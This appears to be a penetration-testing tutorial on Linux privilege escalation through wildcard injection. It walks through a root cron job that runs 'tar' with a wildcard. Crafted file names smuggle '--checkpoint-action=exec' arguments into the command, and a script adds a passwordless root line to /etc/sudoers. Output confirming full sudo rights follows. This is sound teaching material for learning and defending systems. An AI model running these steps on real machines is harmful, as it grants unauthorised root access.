 A wildcard character can be used as a replacement for other characters and are interpreted by the shell before other actions. Examples of wild cards include:

|**Character**|**Significance**|
|---|---|
|`*`|An asterisk that can match any number of characters in a file name.|
|`?`|Matches a single character.|
|`[ ]`|Brackets enclose characters and can match any single one at the defined position.|
|`~`|A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory.|
|`-`|A hyphen within brackets will denote a range of characters.|

An example of how wildcards can be abused for privilege escalation is the `tar` command, a common program for creating/extracting archives. If we look at the [man page](http://man7.org/linux/man-pages/man1/tar.1.html) for the `tar` command, we see the following:

```shell-session
cyberslut@NIX02:~$ man tar

<SNIP>
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
```

The `--checkpoint-action` option permits an `EXEC` action to be executed when a checkpoint is reached (i.e., run an arbitrary operating system command once the tar command executes.) By creating files with these names, when the wildcard is specified, `--checkpoint=1` and `--checkpoint-action=exec=sh root.sh` is passed to `tar` as command-line options.

Consider the following cron job, which is set up to back up the `/home/cyberslut` directory's contents and create a compressed archive within `/home/cyberslut`. The cron job is set to run every minute, so it is a good candidate for privilege escalation.

```shell-session
#
#
mh dom mon dow command
*/01 * * * * cd /home/cyberslut && tar -zcf /home/cyberslut/backup.tar.gz *
```

We can leverage the wild card in the cron job to write out the necessary commands as file names with the above in mind. When the cron job runs, these file names will be interpreted as arguments and execute any commands that we specify.

```shell-session
cyberslut@NIX02:~$ echo 'echo "cyberslut ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
cyberslut@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
cyberslut@NIX02:~$ echo "" > --checkpoint=1
```

We can check and see that the necessary files were created.

```shell-session
cyberslut@NIX02:~$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 cyberslut   cyberslut    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 cyberslut   cyberslut    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 cyberslut   cyberslut   60 Aug 31 23:11 root.sh
```

Once the cron job runs again, we can check for the newly added sudo privileges and sudo to root directly.

```shell-session
cyberslut@NIX02:~$ sudo -l

Matching Defaults entries for cyberslut on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cyberslut may run the following commands on NIX02:
    (root) NOPASSWD: ALL
```


